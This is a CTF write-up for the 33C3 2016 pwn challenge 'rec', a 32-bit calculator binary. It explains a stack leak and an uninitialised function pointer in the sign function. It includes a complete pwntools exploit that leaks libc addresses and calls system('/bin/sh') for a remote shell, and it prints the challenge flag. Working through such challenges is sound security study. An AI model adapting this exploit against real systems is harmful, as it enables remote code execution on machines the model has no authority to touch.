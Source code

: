 ```yaml
---
title: '33C3 CTF 2016 -- rec'
date: 2016-12-30 01:38
tags:
  - 33C3
  - CTF
  - Python
  - Pwnable
categories:
  - write-ups
author: bruce30262
---
```

**Category:** pwn
**Points:** 200

<!-- more -->  

32 bit ELF, with all the protection enabled.

program menu:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 
```
* Take note: input a note
* Read note: output the note
* Polish: do the `sum` operation or the elementary arithmetic (prefix expression)
* Infix: do the elementary arithmetic (infix expression)
* Reverse Polish: do the elementary arithmetic (postfix expression)
* Sign: input a number and see if it is a positive/negative number

First we found that the `Read note` function doesn't work well:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 0
Your note: 123
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 1
Your note:�VXV`�s��`XV     <-- WTF?
```

This is because the program use a stack address as the `note`'s buffer. After we take a note and leave the function, the buffer will be filled with some (useful) addresses (due to the function epilogue). And because of this, we're able to leak the stack address & text's base address.

Now it's time to try controlling the EIP. There's a program logic vulnerability in the `sign` function:
```c 
  if ( num <= 0 )
  {
    if ( num < 0 )
      v1 = (void (*)(void))puts_negative;
  }
  else
  {
    v1 = (void (*)(void))puts_positive;
  }
  v1();
```
It handles both positive & negative numbers. **But what about `0`** ?
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 5
0
[1]    40091 segmentation fault (core dumped)  ./rec
```
The reason why the program crash is because the program did not assigned a value to `v1` (since it did not handle `0`), so when it ran to line `v1()`, it will set the EIP to `0x0` and crash the program. Let's check the assembly code:
```
0x56555d3b:  mov    eax,DWORD PTR [ebp-0x20]   <-- &v1 = ebp-0x20
0x56555d3e:  call   eax
```
It shows that if we can control the value of `[ebp-0x20]`, we'll be able to control the EIP and hijack the program control flow.

I found that the stack frame of the `sign` function is "higher" (or "lesser") than the other functions. If we can't "reach that high" in other functions, we won't be able to control the function pointer. 

After done some fuzzing, I finally found that in the `Polish` function, if we do the `sum` operation and keep entering number, the program will keep pushing number to the stack, making us able to "reach the height" and control the function pointer (and the parameters !) in the `sign` function.

So here's how we gonna exploit the service:
1. Take a note & Read the note, leak the text's base address
2. Use `Polish`'s `sum` operation to control the function pointer & the function parameter. We first set the function pointer to `puts` and the parameter to `__libc_start_main@got` (there's no `.got.plt` due to the **FULL RELRO** protection)
3. Goto `sign` function and input `0`, it will call `puts(__libc_start_main@got)` and gave us the libc's base address
4. Repeat step 2, this time we set the function pointer to `system` and the parameter to "pointer to /bin/sh"
5. Goto `sign` function and input `0`, call `system("/bin/sh")` and get the shell

Here's the exploit. The libc's information are provided by [libc-database](https://github.com/niklasb/libc-database)
```python exp_rec.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time
import numpy

HOST = "78.46.224.74"
PORT = 4127
ELF_PATH = "./rec"
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def take_note(note):
    r.sendlineafter("> ", "0")
    r.sendlineafter("note: ", note)

def read_note():
    r.sendlineafter("> ", "1")

def polish_sum(nums):
    r.sendlineafter("> ", "2")
    r.sendlineafter("Operator:", "S")
    for num in nums:
        print "adding:", num
        r.sendlineafter("Operand:", str(num))

    r.sendlineafter("Operand:", ".")

def sign(num):
    r.sendlineafter("> ", "5")
    r.sendline(str(num))


if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    take_note("123")
    read_note()

    r.recvuntil("note: ")
    fptr_addr = u32(r.recv(4)) - 0x350 # where the function pointer be loaded
    text_base = u32(r.recv(4)) - 0x6fb
    puts = text_base + 0x520
    lsm_got = text_base + 0x2fe0
    puts_got = text_base + 0x2fd8
    
    log.success("fptr_addr: "+hex(fptr_addr))
    log.success("text_base: "+hex(text_base))

    nums = [i for i in xrange(0x63)] + [puts, lsm_got]
    polish_sum(nums)

    sign(0) # this will call puts(lsm_got)
    lsm_addr = u32(r.recv(4))
    #########################################
    #$ ./dump libc6-i386_2.24-3ubuntu2_amd64
    #offset___libc_start_main = 0x00018180
    #offset_system = 0x0003a8b0
    #offset_str_bin_sh = 0x15cbcf
    #########################################
    system_addr = lsm_addr + 0x22730 
    bin_sh = lsm_addr + 0x144a4f 
	
    log.success("lsm: "+hex(lsm_addr))
    log.success("system: "+hex(system_addr))
    log.success("bin_sh: "+hex(bin_sh))

    nums = [i for i in xrange(0x63)] + [numpy.int32(system_addr), numpy.int32(bin_sh)]
    polish_sum(nums)
    sign(0) # this time will call system("/bin/sh")
    
    r.interactive()
```

The flag is in `/challenge/flag.txt`

flag: `33C3_L0rd_Nikon_would_l3t_u_1n`
